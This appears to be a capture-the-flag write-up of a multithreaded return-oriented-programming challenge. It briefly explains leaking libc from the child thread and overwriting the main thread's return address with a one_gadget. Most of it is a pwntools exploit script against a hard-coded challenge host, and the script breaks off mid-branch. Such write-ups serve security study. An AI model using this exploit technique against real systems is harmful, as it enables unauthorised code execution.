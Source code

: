 FWEASD

This is a simple ROP chal with multithread.
It spawn a child thread, and the main thread wait until child thread send "TRANSMISSION_OVER\x00", the child thread will read a string, and if `!strcmp("ASIS{N0T_R34LLY_4_FL4G}", input_string, )`, it will write user controlled buffer that can overflow main thread to main thread.
In both main thread and child thread can overwrite return address. However in child thread we can only use
1. sys_read
2. sys_write
3. sys_close
4. sys_exit
5. sys_exit_group

Apparently we have to get shell in main thread, so I leak libc in child thread and write one_gadget to main thread's return address.
Exploit script :
```python=
#!/usr/bin/python
from pwn import *
import sys

host = '37.139.17.37'
port = 1338

r = remote(host, port)

context.arch = 'amd64'

buf = 0x603000

write_plt = 0x400890
puts_plt = 0x0000000000400880
read_plt = 0x4008e0
puts_got = 0x0000000000602028

pop_rsi_r15 = 0x0000000000400cf1
pop_rdi = 0x0000000000400cf3

main_read = 0x400bb7
main_exit = 0x400c31

puts_base = 0x00000000000809c0
pop_rdx = 0x0000000000001b96
one_gadget = 0x4f322

r.recvuntil(':')
payload = 'ASIS{N0T_R34LLY_4_FL4G}\x00'.ljust(0x20, 'a')
payload += flat([buf-0x200, pop_rdi, puts_got, puts_plt, main_read])
r.sendline(payload)
r.recvuntil('Yeah tha')
libc = u64(r.recvn(6).ljust(8, '\x00')) - puts_base
print ('libc : ', hex(libc))
pop_rdx += libc
print ('pop_rdx : ', hex(pop_rdx))
one_gadget += libc
print ('one_gadget : ', hex(one_gadget))

# Since the PIPE fd number may vary due to some environment issue, you can specify your PIPE fd number here if 6 does not work for you.
if len(sys.argv) < 2:
    # this would work in the origin remote server
    fd = 6
else:
    # or enter a file descriptor, probably 6 to 10, here may require some brute force
```